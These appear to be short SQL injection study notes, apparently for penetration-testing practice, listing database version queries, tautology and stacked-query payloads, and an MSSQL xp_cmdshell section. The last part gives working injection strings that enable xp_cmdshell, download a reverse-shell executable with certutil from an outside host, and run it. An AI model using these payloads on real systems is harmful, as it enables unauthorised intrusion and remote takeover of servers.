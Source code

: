 
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi

Finding the SQL version:

Oracle           `SELECT banner FROM v$version   SELECT version FROM v$instance   `
Microsoft      `SELECT @@version`
PostgreSQL   `SELECT version()`
MySQL          `SELECT @@version`
SQLite           `SELECT sqlite_version()`

### Basics

`' OR 1=1 -- -` obs, not safe as all rows are returned/possibly updated

`something we know works' AND 1=1 --` safer alternative

### In-Band SQLi

### Union


### Stacked Queries

not available in all  systems

`' ; new query here; --`

# Stored procedures and functions

Procedures and functions within a  database  management system.

MSSQL has **xp_cmdshell** that might be used to execute os calls to get rce (remote code execution). (By using EXECUTE  / EXEC to run windows shell commands!!)

Disabled by default! Still common irl. New secure replacement fir example SSIS (SQL Server Integration Services).
Even when disabled, it can be enabled with an EXEC query if the user has the 'sysadmin' role or have the 'alter settings' server level permission.
`'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --`

# Upload and execute exploit/rev shell

`'; EXEC xp_cmdshell 'certutil -urlcache -f http://10.18.21.236:8000/win64-reverse.exe C:\Windows\Temp\reverse.exe'; --`
`'; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --`


